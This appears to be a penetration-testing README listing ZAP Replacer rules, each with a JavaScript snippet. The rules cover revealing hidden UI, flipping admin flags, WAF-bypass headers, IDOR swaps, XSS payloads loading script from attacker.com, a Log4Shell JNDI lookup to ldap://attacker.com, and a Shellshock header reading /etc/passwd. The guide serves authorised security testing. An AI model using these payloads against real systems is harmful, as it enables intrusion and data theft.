 # Match and Replace ZAP

Useful Match and Replace ZAP rules.

Inspired by: <https://github.com/daffainfo/match-replace-burp>

**Note**: Where applicable each tip is accompanied by an expandable section, that contains a standalone JavaScript code snippet which adds the relevant Match-and-Replace rule in a disabled state. You'll need to go into Replacer's options to enable and use them. (Click the triangle/control to expand them.)

## Finding hidden buttons, forms, and other UI elements

Many sites contain hidden UI elements such as:

```html
<div aria-hidden="true"></div>
<div style="visibility: hidden;"></div>
<div style="display: none;"></div>
<script>document.getElementbyTagName("test").hidden=true</script>
<button type="button" disabled>test</button>
```

In ZAP these can be Revealed with standard functionality: <https://www.zaproxy.org/docs/desktop/addons/reveal/>, however should that not accommodate a particular bit of code/functionality you're encountering a Replacer rule can be leveraged to un-hide or re-enable the component.

- Show Hidden UI

![](images/show-hidden-1.png)

<details>
<summary>Show Hidden UI Elements</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Show hidden UI elements", "", matchType.RESP_BODY_STR, "hidden", false, "hizzen", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Show display:none UI

![](images/show-hidden-2.png)

<details>
<summary>Show display:none UI Elements</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Show display:hidden UI elements", "", matchType.RESP_BODY_STR, "display:none", false, "display:n0ne", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Change disable to enable

![](images/show-hidden-3.png)

<details>
<summary>Change disable to enable</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Change disable to enable", "", matchType.RESP_BODY_STR, "disable", false, "enable", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

## Changing false to true

Sometimes it is possible to un-hide or re-enable functionality or UI components by simply changing `false` to `true`.
Here are some example scenarios:

- Changing role from normal user to admin

![](images/false-true-admin.png)

<details>
<summary>Change user role to admin</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Change user role to admin", "", matchType.RESP_BODY_STR, "admin: false", false, "admin: true", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Set email verified

![](images/false-true-email.png)

<details>
<summary>Set email verified</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Set email verified", "", matchType.RESP_BODY_STR, "email_verify: false", false, "email_verify: true", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

## Bypass WAF

Bypassing WAF by adding some request headers.

- Adding `X-Forwarded-Host: 127.0.0.1`

![](images/bypass-waf.png)

<details>
<summary>Bypass WAF</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Bypass WAF", "", matchType.REQ_HEADER, "X-Forwarded-Host", false, "127.0.0.1", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

Other request headers/values which may assist in bypassing WAFs include (but are not limited to):

```text
X-Forwarded-Port: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-Scheme: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Cluster-Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Client-IP: 127.0.0.1
Origin: null
Origin: Domain.attacker.com
```

Note: Adding multiple headers might be easier with a:
- [Proxy Script](https://github.com/zaproxy/community-scripts/blob/main/proxy/WAF_Bypass.js)
or
- [HttpSender Script](https://github.com/zaproxy/community-scripts/tree/main/httpsender)

## Finding IDOR

For example changing a known UUID to another value:

![](images/finding-idor.png)

<details>
<summary>Finding IDOR</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Finding IDOR", "", matchType.REQ_BODY_STR, "9364e9f8-7080-4852-b2ff-d21e2acee6", false, "d58f540d-bd7b-4b5c-ba2a-f82bbc1241d8", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

## Finding XSS

- Finding XSS on `Referer`

![](images/finding-xss-referer.png)

<details>
<summary>Finding XSS in Referer</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Finding XSS in Referer", "", matchType.REQ_HEADER, "Referer", false, "\"><script src=https://attacker.com></script>", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Automatically replace user input with an XSS payload

![](images/finding-xss-user.png)

So by just inputting the string `xss_payload` on the website it will be immediately replaced with `"><script src=https://attacker.com></script>`.
Change the XSS payload as you see fit.

<details>
<summary>Easily replace XSS payload</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Easily replace XSS payload", "", matchType.REQ_BODY_STR, "xss_payload", false, "\"><script src=https://attacker.com></script>", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

## Misc

- Help companies to identify your traffic and separate it from malicious traffic by adding a custom header

![](images/hackerone-header.png)

<details>
<summary>Add hackerone header</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Add hackerone header", "", matchType.REQ_HEADER, "X-Header-Hackerone", false, "YourHackeroneUserName", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Setting the `User-Agent` (UA) or emulating a mobile browser.

In ZAP the User-Agent request header is controlled via Connection options. However, if you wanted to emulate a mobile browser in order to see the mobile UI of a target or perhaps discover some different functionality or behavior. You could change it to a Mobile UA: https://www.zaproxy.org/docs/desktop/addons/network/options/connection/#default-user-agent

For example: `Mozilla/5.0 (iPhone; CPU iPhone OS 16_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.5 Mobile/15E148 Safari/604.1`

<https://www.whatismybrowser.com/guides/the-latest-user-agent/> is a good source for up-to-date User-Agent strings.

This could also be done with a Replacer rule.

![](images/emulate-ios.png)

<details>
<summary>Emulate iOS</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Emulate iOS", "", matchType.REQ_HEADER, "User-Agent", false, "Mozilla/5.0 (iPhone; CPU iPhone OS 16_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.5 Mobile/15E148 Safari/604.1", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Finding [CVE-2021-44228](https://github.com/advisories/GHSA-jfh8-c2jp-5v3q)

![](images/log4shell.png)

<details>
<summary>Find CVE-2021-44228</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Replace User-Agent with Log4j Attack", "", matchType.REQ_HEADER, "User-Agent", false, "${jndi:ldap://attacker.com/x}", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Replace User-Agent with shellshock attack [CVE-2014-6271](https://github.com/advisories/GHSA-6hfc-grwp-2p9c)

![](images/shellshock.png)

<details>
<summary>Find CVE-2014-6271</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Replace User-Agent with shellshock attack", "", matchType.REQ_HEADER, "User-Agent", false, "(){:;};/bin/cat /etc/passwd", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>
